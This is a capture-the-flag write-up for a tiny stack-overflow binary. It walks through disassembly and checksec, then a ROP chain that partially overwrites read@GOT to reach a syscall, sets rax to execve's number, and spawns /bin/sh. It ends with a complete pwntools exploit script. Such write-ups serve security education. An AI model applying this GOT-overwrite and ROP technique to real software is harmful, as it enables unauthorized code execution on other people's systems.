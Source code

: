 This is a small writeup for a nice (and small hehe) challenge.
First of all, let's do a fast reverse of the binary:

```asm
Dump of assembler code for function main:
   0x00000000004004e7 <+0>:	push   rbp
   0x00000000004004e8 <+1>:	mov    rbp,rsp
   0x00000000004004eb <+4>:	sub    rsp,0x40
   0x00000000004004ef <+8>:	lea    rax,[rbp-0x40]
   0x00000000004004f3 <+12>:	mov    edx,0x50f
   0x00000000004004f8 <+17>:	mov    rsi,rax
   0x00000000004004fb <+20>:	mov    edi,0x0
   0x0000000000400500 <+25>:	mov    eax,0x0
   0x0000000000400505 <+30>:	call   0x4003f0 <read@plt>
   0x000000000040050a <+35>:	mov    rax,rax
   0x000000000040050d <+38>:	nop
   0x000000000040050e <+39>:	nop
   0x000000000040050f <+40>:	leave  
   0x0000000000400510 <+41>:	ret    
End of assembler dump.
```

never forget checksec:

```asm
Canary                        : No
NX                            : Yes
PIE                           : No
Fortify                       : No
RelRO                         : Partial
```

Partial RelR0, no pie. Nice things but
that's it. And now is the time that you're looking at it, and you're looking at it, and you know that there's a buffer oveflow,but you can't do anything. We have to leak 
some data, aslr is obviously on (2020 it is). It’s almost impossible to exploit a binary only with arbitrary write, is it?

Take your time, and think before you see the solution. 

Time to solve the mystery:

We know that we don’t have the ability to leak address, time to analyze the only function given to us, read().
```asm
   0x7ffff7ec5fa0 <__GI___libc_read>:	    endbr64 
   0x7ffff7ec5fa4 <__GI___libc_read+4>:	  mov    eax,DWORD PTR fs:0x18
   0x7ffff7ec5fac <__GI___libc_read+12>:	test   eax,eax
   0x7ffff7ec5fae <__GI___libc_read+14>:	jne    0x7ffff7ec5fc0 <__GI___libc_read+32>
   0x7ffff7ec5fb0 <__GI___libc_read+16>:	syscall 
   0x7ffff7ec5fb2 <__GI___libc_read+18>:	cmp    rax,0xfffffffffffff000
   0x7ffff7ec5fb8 <__GI___libc_read+24>:	ja     0x7ffff7ec6010 <__GI___libc_read+112>
   0x7ffff7ec5fba <__GI___libc_read+26>:	ret    
   0x7ffff7ec5fbb <__GI___libc_read+27>:	nop    DWORD PTR [rax+rax*1+0x0]
   0x7ffff7ec5fc0 <__GI___libc_read+32>:	sub    rsp,0x28
```


Following the function, we can observe a syscall instruction. This is enough to solve the challenge. Why? 
Because we have a buffer overflow, a bunch of ROPgadgets to control the RDI, RSI and RDX and our beautiful mind to unite all these things together and gain a shell.
In brief, I'll present to you the steps you need to follow to exploit the binary. 

 *  Write /bin/sh somewhere in the .bss section, in order to use it later.
 *  Overwrite last byte of read@GOT address in order to point in the syscall instruction.
 *  Now syscall returns 1 to rax, so next time we call syscall, it'll write some bytes in stdout.
    Controling rdx (0x3b), we want to write 0x3b bytes. RAX's value now is 0x3b (execve's syscall number)
 *  Having RAX equal to 0x3b, /bin/sh in memory, and control of all the necessary registers, it's a matter of time (piece of cake) to get a shell.

Here's the exploit:

```python
from pwn import *

sh = process('./small')

bss = 0x601020
read_got = 0x601018
read_plt = 0x4003f0
start = 0x4004ef
read = 0x4004fb
text = 0x400000


pop_rdi = 0x400583
pop_rsi_r15 = 0x400581
pop_rdx = 0x40059a



#save_bin_sh():
payload = "A"*0x40 + p64(0x0) + p64(pop_rsi_r15) + p64(bss) + p64(0x0) + p64(pop_rdi) + p64(0x0) + p64(pop_rdx) + p64(0x8) + p64(read_plt)


#overwrite_read():
payload += p64(pop_rsi_r15) + p64(read_got) + p64(0x0) + p64(pop_rdx) + p64(0x1) + p64(pop_rdi) + p64(0x0) + p64(read_plt)

#write_0x3b():
payload += p64(pop_rsi_r15) + p64(text) + p64(0x0) + p64(pop_rdx) + p64(0x3b) + p64(pop_rdi) + p64(0x1) + p64(read_plt)

#shell
payload += p64(pop_rdi) + p64(bss) + p64(pop_rdx) + p64(0x0) + p64(pop_rsi_r15) + p64(0x0) + p64(0x0) + p64(read_plt)

pause()
sh.send(payload)
pause()
sh.send("/bin/sh\x00")
pause()
sh.send('\xb0')
sh.interactive()
```

Thanks, fuzzer for this nice and clever chall.

